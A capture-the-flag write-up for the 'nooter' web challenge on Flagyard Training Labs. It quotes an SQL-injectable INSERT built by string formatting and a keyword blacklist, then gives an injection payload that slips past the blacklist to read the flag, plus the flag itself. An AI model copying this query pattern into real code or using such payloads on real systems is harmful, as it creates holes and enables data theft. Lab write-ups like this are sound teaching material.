


# nooter
Writeup for nooter (Web) - Flagyard Training Labs

# Description
> Just another note taking app :)

# Solution
We have an notepad app where we can register, login, and making a note. 



We are get the source code of the application and on the function for notes there is SQL Injection vulnerability

```python
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```

But there is fuction for blacklist some word

```python
def blacklist(string):
    string = string.lower()
    blocked_words = ['exec', 'load', 'blob', 'glob', 'union', 'join', 'like', 'match', 'regexp', 'in', 'limit', 'order', 'hex', 'where']
    for word in blocked_words:
        if word in string:
            return True
    return False
```

This function blocks common SQL keywords used for data exfiltration, such as UNION, JOIN, and WHERE. This forces us to find an alternative method to the popular UNION SELECT technique.

# Payload
For creating the payload for retrive the flag we need to create payload that not contains the blacklist word. Word that i discover can help us is SELECT. 

We can use this payload for get the flag

```sql
SELECT flag FROM flag
```

Now we need to can creating the payload for this SQL querry executed

```
'), ('username', (SELECT flag FROM flag))--
```

change the username with your username then it will execute sql and reveal us the flag



# Flag
Flag: `FlagY{d695ef54fc9bd8ca664193eb485c4721}`